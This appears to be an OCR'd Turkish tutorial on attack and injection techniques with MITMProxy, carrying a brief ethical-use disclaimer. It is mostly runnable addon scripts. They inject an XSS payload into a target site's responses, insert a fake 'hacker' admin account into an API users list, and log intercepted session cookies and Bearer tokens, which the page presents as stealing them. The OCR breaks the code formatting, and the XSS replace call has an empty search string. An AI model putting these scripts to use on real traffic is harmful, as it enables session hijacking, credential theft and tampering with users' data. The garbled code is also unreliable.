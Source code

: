 MITMProxy ile Saldırı ve Enjeksiyon Teknikleri
MITMProxy kullanarak trafik manipülasyonu yapabilir, saldırı senaryolarını test edebilir ve enjeksiyonlar gerçekleştirebilirsiniz. Bu, özellikle güvenlik testleri, pentest ve Red Team operasyonlarında kullanılır.
**📌 Dikkat: Bu teknikler sadece etik hackerlık ve güvenlik testleri için kullanılmalıdır. Yetkisiz bir şekilde uygulamak yasadışıdır.**

1. HTTP/HTTPS İsteklerine Enjeksiyon
MITMProxy ile hedef sistemlere zararlı yükler (payload), JavaScript kodları veya kimlik doğrulama token'ları ekleyebilirsiniz.
**🔹 Örnek 1: Web Sayfasına Otomatik XSS Enjeksiyonu**
Bir web sitesinin HTML yanıtına otomatik olarak zararlı bir XSS payload'u enjekte etmek:
```python
from mitmproxy import http
```
def response(flow: http.HTTPFlow):
 if "target.com" in flow.request.pretty\_url:
 flow.response.text = flow.response.text.replace("", "alert('XSS')")

**📌 Bu betik, "target.com" yanıtına bir XSS saldırısı ekler.**

**🔹 Örnek 2: API Yanıtına Arka Kapı (Backdoor) Ekleme**
Bir REST API yanıtına sahte kullanıcı eklemek için:
```python
import json
from mitmproxy import http
```
def response(flow: http.HTTPFlow):
 if "api.target.com/users" in flow.request.pretty\_url:
 data = json.loads(flow.response.text)
 data["users"].append({"id": 9999, "username": "hacker", "role": "admin"})
 flow.response.text = json.dumps(data)

**📌 Bu betik, API yanıtına sahte bir yönetici hesabı ekler.**

2. Kimlik Doğrulama ve Çerez (Cookie) Hırsızlığı
MITMProxy ile kimlik doğrulama başlıklarını (Authorization), oturum çerezlerini (Cookies) ve API anahtarlarını (API Keys) çalabilirsiniz.
**🔹 Örnek 3: Çerezleri (Cookies) Loglama**
```python
from mitmproxy import ctx
```
def request(flow):
 cookies = flow.request.headers.get("Cookie", "")
 if cookies:
 ctx.log.info(f"Çerezler: {cookies}")

**📌 Bu betik, tüm çerezleri MITMProxy loglarında gösterir.**

**🔹 Örnek 4: Bearer Token Çalmak**
```python
from mitmproxy import ctx
```
def request(flow):
 auth\_header = flow.request.headers.get("Authorization", "")
 if "Bearer" in auth\_header:
 ctx.log.info(f"Bearer Token: {auth\_header}")
